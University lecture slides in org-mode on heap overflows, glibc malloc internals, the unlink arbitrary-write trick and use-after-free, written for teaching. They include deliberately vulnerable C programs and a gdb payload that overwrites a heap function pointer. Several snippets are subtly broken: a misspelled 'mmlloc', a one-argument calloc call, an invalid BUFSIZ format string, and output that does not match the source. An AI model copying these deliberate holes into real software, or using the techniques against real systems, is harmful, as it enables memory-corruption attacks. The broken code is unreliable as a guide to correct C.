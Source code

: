 #+title: Lecture 2: Heap overflows and the Malloc Maleficarum
#+author: Joseph Hallett
#+institute: University of Bristol
#+startup: beamer
#+options: toc:nil
#+beamer_theme: default
#+beamer_header: \titlegraphic{\includegraphics[height=0.5cm]{bristol.png}}
#+beamer_color_theme: beaver
#+beamer_font_theme: [stillsansseriflarge]serif
#+latex_class_options: [9pt,aspectratio=169]

#+latex_header: \usepackage{fontspec}
#+latex_header_extra: \setsansfont{Archivo Expanded}
#+latex_header_extra: \setmainfont{Lora}
#+latex_header_extra: \setmonofont{PragmataPro Liga}

* Recap
** Last time...

We went over some classic bug types, and gave a /hint/ about how to exploit them:
- We played around with /format string vulnerabilities/ in the lab

** This time...

We're going to move from the /stack/ to the heap and think about some of the bugs we can find over there.
- We're going to explore how /Glibc's/ implementation of =malloc= works and what we can do with it

* Warning!

** Here be dragons
A lot of this stuff is highly system dependent and varies from architecture to architecture.
- It is conceptually /fiddly/ (and technically too!)
- Even within a single system, there can be multiple heap implementations and memory management libraries in play
  - Sometimes even within one application...

I'm going to go /high-level/ and give you concepts and history
- When I /do go/ into more detail I'm going to try and focus on Linux and the GNU Libc
- Other systems exist (and are radically different)
- To understand in detail you need to read /your/ =malloc= implementation

* So what's this all about?

** We'd like to create objects dynamically in memory
This means we need to talk to the OS and ask it to give us more (and occasionally less) memory depending on our need.

POSIX gives us a set of standard system calls for doing this:
- =mmap= :: maps devices and files into a program's running memory.
- =mprotect= :: lets us set usage policies about memory
- =brk= & =sbrk= :: /(deprecated mostly)/ for controlling how big the program data is

But system calls are really slow (generally)...
- and we might want to create lots of objects dynamically
- and not all OSs implement POSIX standards and API in the same way

...and the C programming language is meant to be /vaguely/ portable...

* =malloc= and =free=

Instead of going to the kernel every time we want to manage memory lets try and do it in userland!

When a program starts we'll give it a reasonable chunk of memory in its virtual address space, and an API for managing it.
- It can call the system calls /if necessary/
- We'll base it on a /heap/ datastructure and call it /the heap/
- We'll call it =malloc= and =free=

** By the way

We call it /the heap/ but depending on the implementation it might not actually be a heap anymore.

* Every OS has a slightly different =malloc= implementation

** Linux (Debian)

#+begin_src C
  #include <stdlib.h>

  void *malloc(size_t size);
  void free(void *ptr);
  void *calloc(size_t nmemb, size_t size);
  void *realloc(void *ptr, size_t size);
  void *reallocarray(void *ptr, size_t nmemb, size_t size);
#+end_src

* Every OS has a slightly different =malloc= implementation          
** MacOS
     #+begin_src C
     #include <stdlib.h>

     void *
     calloc(size_t count, size_t size);

     void
     free(void *ptr);

     void *
     malloc(size_t size);

     void *
     realloc(void *ptr, size_t size);

     void *
     reallocf(void *ptr, size_t size);

     void *
     valloc(size_t size);
     #+end_src
  
* Every OS has a slightly different =malloc= implementation       :B_columns:

** OpenBSD                                                            :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

#+begin_src C
  #include <stdlib.h>

  void *
  malloc(size_t size);

  void *
  calloc(size_t nmemb, size_t size);

  void *
  realloc(void *ptr, size_t size);

  void
  free(void *ptr);

  void *
  reallocarray(void *ptr, size_t nmemb, size_t size);
  #+end_src

** ...                                                                :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:
  #+begin_src C
  void *
  recallocarray(void *ptr, size_t oldnmemb, size_t nmemb, size_t size);

  void
  freezero(void *ptr, size_t size);

  void *
  aligned_alloc(size_t alignment, size_t size);

  void *
  malloc_conceal(size_t size);

  void *
  calloc_conceal(size_t nmemb, size_t size);

  char *malloc_options;
#+end_src


* Example time                                                    :B_columns:

**  Part 1                                                            :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:
32-bit Linux, no ASLR.  Make it print /"You win"/ instead of /"You lose"/...

#+begin_src C :tangle crackme.c
  #include <stdlib.h>
  #include <stdio.h>
  #include <string.h>

  struct data { char name[64]; };
  struct fp { int  (*fp)(); };

  int winner() { return printf("You win\n"); }
  int nowinner() { return printf("You lose\n"); }

  int main(int argc, char *argv[]) {
    struct data *d;
    struct fp *f;
#+end_src
** Part 2                                                             :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

#+begin_src C :tangle crackme.c
    d = malloc(sizeof(struct data));
    f = malloc(sizeof(struct fp));
    printf("data is at %p\nfp is at %p\n", d, f);

    f->fp = nowinner;
    strcpy(d->name, argv[1]);
    f->fp();

    return 0;
  }
#+end_src

* Attack Start

#+begin_src shell
  $ ./crackme hello
  data is at 0x8db8008
  fp is at 0x8db8050
  You lose

  $ nm ./crackme | grep winner
  080484b4 T nowinner
  0804849b T winner

  $ gdb ./crackme
  (gdb) run $(perl -e 'print "A"x128')
  Starting program: /home/user/crackme $(perl -e 'print "A"x128')
  data is at 0x804b008
  fp is at 0x804b050

  Program received signal SIGSEGV, Segmentation fault.
  0x41414141 in ??()
#+end_src

Anyone want to solve it?

* Attack Complete

#+begin_src shell
  $ gdb ./crackme
  (gdb) run $(perl -e 'print "A"x(0x50-0x08), "\x9b\x84\x04\x08"')
  Starting program: /home/user/crackme $(perl -e 'print "A"x(0x50-0x08), "\x9b\x84\x04\x08"')

  data is at 0x804b008
  fp is at 0x804b050
  You win!
  [Inferior 1 (process 1652) exited normally]
#+end_src

* What just happened?

The buffer and the function pointer were allocated sequentially on the heap.
- We overwrote the function pointer with =strcpy=
  - Initially with ='A'= ($41_{16}$) to prove we had overwritten the right thing
- Then more precisely with the address of the function we /actually/ wanted to call

* ...underwhelming, much?

This is just a buffer overflow again, but in a slightly different location.

It isn't *totally* unrealistic...
- You could do OO programming in C like this with structs of function pointers,
- (BTW C++ has its own allocation mechanisms, and typically won't use =malloc= internally... do have a play!)

More generally...
- Buffers exist on the heap
- We can over (and under) flow them, as normal
- Sometime; you hit something useful

* Faces of =malloc=                                               :B_columns:

** Doug Lea                                                           :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

[[./douglea.jpg]]

Author of the first popular =malloc= implementation

** Solar Designer                                                     :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

[[./solardesigner.jpg]]

First general heap overflow technique against GNU ~malloc~

* =maloc= internals                                               :B_columns:

** So how does =malloc= actually work?                                :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

#+begin_src C
  char *a = calloc(16 * sizeof(*a));
  char *b = calloc(16 * sizeof(*b));
  char *c = calloc(16 * sizeof(*c));

  printf("Pointer Address\n");
  printf("&a %p\n&b %p\n&c %p\n", a, b, c);
#+end_src

** 3 pointers                                                         :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

| Pointer | Address     |
|--------+-------------|
| =a=    | =0x1dce2a0= |
| =b=    | =0x1dce2c0= |
| =c=    | =0x1dce2e0= |

This gives us three pointers to memory allocated on the heap
- Lets have a look  what is there and whats in surrounding memory
- Lets observe how it changes as we free the memory

* Zero =free()=s are...
#+begin_src 
Initially:
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
#+end_src

* Once =free()= is...

#+begin_src 
free(a):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
#+end_src

* Two =free()s= are...

#+begin_src 
free(b):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 6e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
#+end_src

* Three =free()s= are...

#+begin_src 
free(c):
                0  1  2  3  4  5  6  7  8  9  a  b  c  d  e  f  
              +-------------------------------------------------
     0x1dce29*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
a -> 0x1dce2a*| ce 1d 00 00 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2b*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
b -> 0x1dce2c*| 6e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2d*| 00 00 00 00 00 00 00 00 21 00 00 00 00 00 00 00 
c -> 0x1dce2e*| 0e ff dc 01 00 00 00 00 d0 8f f1 6e 08 20 33 e3 
     0x1dce2f*| 00 00 00 00 00 00 00 00 11 04 00 00 00 00 00 00 
#+end_src

* But what does it mean?

When memory gets allocated (and deallocated) extra /stuff/ gets written to the heap.
- Some of it looks a bit pointer-y
- Data gets written into the heap based on this data on a =free()=
- =malloc()= is probably using it to work out where the free sections are

* An idea for some heap /vudu/...

Data is clearly being written by =malloc()= and its friends
- /If/ we have a buffer overflow in the heap...
- And /if/ we can overflow into these =malloc()= headers...
- Can we abuse it to get =free()= to write to an arbitrary pointer?
  - (yes)
  
* How its meant to work...

- Memory starts out as a big /arena/ :: region of memory for the program's heap(s); shared among threads
- Each /heap/ :: belongs to one arena and is divided into...
- /Chunks/ :: which are small ranges of memory that can be allocated from

* So what was all that stuff on the heap?

[[./chunks.png]]

* Tidying up

As memory gets used by your programs it gets more and more /chunked/ up.
- This causes problems!
- What if you want to allocate a big chunk, but you've only got a load of little sequential free chunks?

To deal with this (under certain circumstances*) =free()= will merge chunks when releasing the memory.
- If the =bck= chunk is free...
- It'll go back and update the size to include both of them...
- and it'll update the =bck= chunk's =fwd= pointer to be this chunks =fwd= pointer...
- Merging the two chunks! 
- and it'll update the =fwd= chunk's =bck= pointer to be the new merged chunk.

* Once upon a =free()=

#+begin_src C
  #define unlink(P, BK, FD) { \
  BK = P->bk;                 \
  FD = P->fd;                 \
  FD->bk = BK;                \
  BK->fd = FD;                \
}
#+end_src

- The =fwd= pointer's =bck= pointer is going to be set to the =bck= pointer
- The =bck= pointer's =fwd= pointer is going to be set to the =fwd= pointer

...but if everything is corrupted and we could set the =bck= pointer to be an address we want to overwrite,
- and set the =fwd= pointer to be the value we want to corrupt it with

* Spaghetti!

** ...maybe?

There are some tricks with creating fake chunks in memory and setting the =fwd= pointer to be a fake chunk to avoid segfaulting
- ...but thats the basics of it.
- It gives you a one integer arbitrary write...
  - (which could be aimed at a stack return address).

Yes this is /horrendously/ fiddly, and nowadays the =free()= routine is patched to avoid this.
- But /Solar Designer/ used this technique to exploit the JPEG decoder in /Netscape Navigator/ (pre-Firefox Firefox) back in 2000.
- And its the basis for many heap attacks going foreward.

See
- Anonymous's Once Upon a free()... :: [http://phrack.org/issues/57/9.html]
- Solar Designer's vulnerability notice :: [https://www.openwall.com/articles/JPEG-COM-Marker-Vulnerability]

* One more for luck: Use after =free()=

Suppose we have a pointer to a =malloc='d region...

And then we free it...

But the pointer sticks around and is still used

** Can we use this for tricksy magic?

* Recycling chunks

Once a chunk has been used, it is released back into the free pool.
- Which means a process can reuse that memory for future allocations.

* Ruh-roh                                                         :B_columns:

** Source                                                             :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:

#+begin_src C :tangle use-after-free.c
  #include <stdio.h>
  #include <stdlib.h>
  void you_win() { printf("You win!\n"); }
  void you_lose() { printf("You lose!\n"); }
  typedef struct { void (*method)(); } Classy_Thing;
  int main(void) {
    char *buffer1 = mmlloc(BUFSIZ);
    char *buffer2 = malloc(BUFSIZ);
    free(buffer2);
    Classy_Thing *thing = malloc(sizeof(Classy_Thing));
    thing->method = you_lose;
    printf("you_win %p\nyou_lose %p\n", you_win, you_lose);
    printf("buffer1 %p\nbuffer2 %p\n", buffer1, buffer2);
    printf("thing %p\n", thing);
    scanf("%" BUFSIZ "s", buffer2);
    thing->method();
  }
#+end_src

** Results                                                            :BMCOL:
:PROPERTIES:
:BEAMER_opt: [t]
:BEAMER_col: 0.49
:END:
#+begin_src
make use-after-free
./use-after-free 
#+end_src
#+results:

|=you_win= |=0x0401176=|
|=you_lose= |=0x0401187=|
|=buffer1= |=0x13602a0=|
|=buffer2= |=0x13622b0=|
|=thing= |=0x13622b0=|

* Recap

** What we've covered today
- Trivial heap overflow :: you might hit something useful.
- Once upon a =free()=... :: spaghetti with pointers can lead to an arbitrary write
- Use after =free()= :: pointers hang around sometimes

** How do we stop this?
Kind of an open question.
- Maybe don't let developers have pointers?
- Maybe add more randomness (but randomness is expensive)
- Fine-grained memory protections /(coming soon)/

** Next time...

In the lab:
- Buffer overflows and shellcode

Next lecture:
- Return Oriented Programming

* Malloc Maleficarum

** Further reading
Start with in /Phrack/:
- [[http://phrack.org/issues/57/8.html#article][Vudu malloc tricks (Michel "MaXX" Kaempf)]]
- [[http://phrack.org/issues/57/9.html][Once upon a free (anonymous)]]

And then go read [[https://seclists.org/bugtraq/2005/Oct/118][The Malloc Maleficarum]] by /Phantasmal Phantasmagoria/.
- 5 =malloc= based heap exploitation techniques
- 1 poem
- Excellent hacker gibberish!

#+begin_verse
  Am I a hacker? No.
  I am a student of virtuality.
  I am the witch malloc,
  I am the cult of the otherworld,
  and I am the entropy.
  I am Phantasmal Phantasmagoria,
  and I am a virtual adept.
#+end_verse
